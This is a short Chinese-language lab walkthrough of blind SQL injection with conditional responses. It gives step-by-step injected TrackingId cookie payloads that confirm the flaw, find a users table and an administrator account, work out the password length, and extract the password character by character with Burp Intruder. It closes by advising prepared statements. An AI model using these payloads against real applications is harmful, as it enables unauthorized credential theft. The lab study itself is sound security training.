 # SQL 注入

## 例子一

参考 Lab: Blind SQL injection with conditional responses

1. 分析，可能用了某个SQL，例如 select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl';
2. 修改TrackingId select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl'--'; 返回结果一样，存在注入漏洞，如果结果是其他，那么可能不存在注入漏洞
3. select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and 1=1--'; 结果一样，存在注入漏洞，1=1改成1=2，结果不一样，结果为False
4. select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and (select 'x' from users limit 1) = 'x'--'; 猜是否有users表
5. select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and (select username from users where username = 'administrator 'limit 1) = 'administrator'--'; 猜是否有administrator用户，以及username列
6. 使用intruder 确定密码长度select tracking_id from tracking_table where tracking_id = 'KXXcpjgSUpgoXIRl' and (select username from users where username = 'administrator'  and length(password) > 1 limit 1) = 'administrator'--'; 试 1 2 3 4 5 ... 直到某个标识没出现，例如20的时候没出现，那么20就是密码长度
7. 确定密码长度20，Cookie: TrackingId=412sXaPzxUS4w84c' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a; session=WKKbcio4oJYlf72nueUvdRzxWcW58jY3 使用substring确认每一位密码的字符，a-zA-Z0-9，使用cluster bomb来实现' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username='administrator')='$a$ 第一个用Numbers 第二个用Brute Forcer
8. 结果过滤 welcome back，记录每位密码的字符，拼接在一起
9. 密码为cckmlqxov888xrzgys01 （再复杂的密码也能被攻破，所以时刻使用SQL预处理防SQL注入，这很重要）
